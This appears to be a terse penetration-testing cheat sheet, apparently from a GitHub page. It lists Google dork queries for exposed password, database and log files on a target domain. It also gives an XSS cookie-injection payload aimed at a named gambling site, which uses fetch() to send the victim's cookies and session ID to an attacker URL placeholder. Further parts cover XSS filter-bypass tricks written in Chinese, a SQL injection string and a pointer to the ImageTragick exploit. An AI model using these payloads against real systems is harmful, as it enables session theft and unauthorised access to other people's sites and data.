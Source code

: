 ```
# Search for directories with mail
intitle:"index of /mail" site:target.com

# Search for directories containing passwords
intitle:"index of /" (passwd | password.txt) site:target.com

# Search for directories containing .htaccess
intitle:"index of /" .htaccess site:target.com

# Search for .txt files with passwords
inurl:passwd filetype:txt site:target.com

# Search for potentially sensitive database files
inurl:admin filetype:db site:target.com

# Search for log files
filetype:log site:target.com

# Search for other sites that are linking to our target
link:target.com -site:target.com
```


## XSS

```
https://www.32red.com/ HTTP/1.1
Cookie: csrfToken=INJECTION'-fetch('https:/%2F-->REPLACE_URL_HERE<--',{method:'POST',body:document.cookie+"\u003bCAKEPHP="+Red.SessionId})-'
bin
```

*NOTE: Remember to replace `https://` with `https:%2F%252F` as you can see above*

*trick* 
 > 绕过思路就是
> 在action前面加一个/
> action/=javascript:

>上传图片处修改url为 `javascript:window['al'+'ert']('xss')`

## SQL

*   CVE搜索处存在

```
/**/AND/**/'1%'='1
```

## RCE

*   ImageTragick 攻击

